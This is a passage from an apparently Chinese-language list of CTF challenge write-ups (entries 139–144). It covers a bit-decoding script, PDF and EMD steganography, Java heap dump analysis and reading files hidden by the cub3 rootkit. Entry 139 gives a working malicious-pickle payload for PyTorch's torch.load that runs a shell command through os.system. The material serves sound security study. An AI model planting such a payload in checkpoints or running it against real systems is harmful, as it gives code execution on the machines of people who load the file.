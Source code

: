 ```python
with open('output.txt', 'r') as f:
    data = f.readline()
    count = 0
    res = 0
    ans = b''
    while data != '':
        pac = data[:2]
        if pac != '':
            if pac[0] == '0' and pac[1] == '1':
                res = (res<<1)|0
                count += 1
            if pac[0] == '1' and pac[1] == '0':
                res = (res<<1)|1
                count += 1
            if count == 8:
                ans += res.to_bytes(1,'big')
                count = 0
                res = 0
        else:
            break
        data = data[2:]

with open('out', 'wb') as f2:
    f2.write(ans)
```
139. [machine_loading](https://github.com/wani-hackase/wanictf2023-writeup/tree/main/mis/machine_loading)
- python pytorch模块torch.load函数的反序列化漏洞：https://github.com/pytorch/pytorch/issues/52596 。该函数内部调用了pickle，将payload使用torch.save打包后再用torch.load即可触发payload
```python
import os
import torch

class Exploit(object):
    def __reduce__(self):
        cmd = ('cat ./flag.txt > ./output_dir/output.txt')
        # cmd = ('ls > ./output_dir/output.txt')
        return os.system, (cmd,)

# torch.save(Exploit(), 'solver_ls.ckpt')
torch.save(Exploit(), 'solver_cat.ckpt')
```
140. [PDF-Mess](https://github.com/HeroCTF/HeroCTF_v5/tree/main/Steganography/PDF-Mess)
- pdf隐写：pdf里以树状存储内部的文件，自然可以藏一些额外的。可使用[peepdf](https://github.com/jesparza/peepdf)列出pdf里所有的文件。
- 也可参考[Perfectly Disinfected](https://github.com/LazyTitan33/CTF-Writeups/blob/main/Nahamcon2023/Forensics/Perfectly_Disinfected.md)，使用[PDFStreamDumper](https://pdfstreamdumper.software.informer.com/)
141. [EMD](https://github.com/HeroCTF/HeroCTF_v5/tree/main/Steganography/EMD)
- 包含EMD隐写写入data/提取data的脚本。原理在wp和提供的论文里有介绍。使用方法：
    - 隐藏data：`hideDataWithEMD(message,pixelGroupCount,outputPng)`
    - 提取data：`retrieveDataWithEMD(openImage("outputPng"),pixelGroupCount,messageLength)`
142. [HEAP](https://github.com/HeroCTF/HeroCTF_v5/tree/main/Forensics/Heap)
- java heap dump文件（后缀HPROF）分析。使用工具：[Eclipse Memory Analyze Tool](https://www.eclipse.org/mat/)
- 如果题目给出的hprof文件不是通用格式（如Android Studio生成的就不是通用格式），需要用转换工具将其转为通用格式才能用工具分析。`hprof-conv heap.hprof heap-conv.hprof`
143. [My Poor Webserver](https://pwnwithlove.com/fr/articles/wu1-heroctf/)
- 利用[cub3](https://github.com/mempodippy/cub3)隐藏文件。
  - 使用该方法隐藏的文件只能用`ls -lha filename`看到更详细的信息（直接`ls -lha`是不行的，必须跟上文件名）。而文件名需要到隐藏文件所存储的目录下执行`strace ls`获取（跟踪ls的执行，里面可能会包含可疑的文件名）
  - 读取以这种方式隐藏的文件(平常的cat等会提示文件不存在)：
    - `base64 filename | base64 -d`
    - `more filename`
144. [Erlify](https://github.com/HeroCTF/HeroCTF_v5/tree/main/Misc/erlify)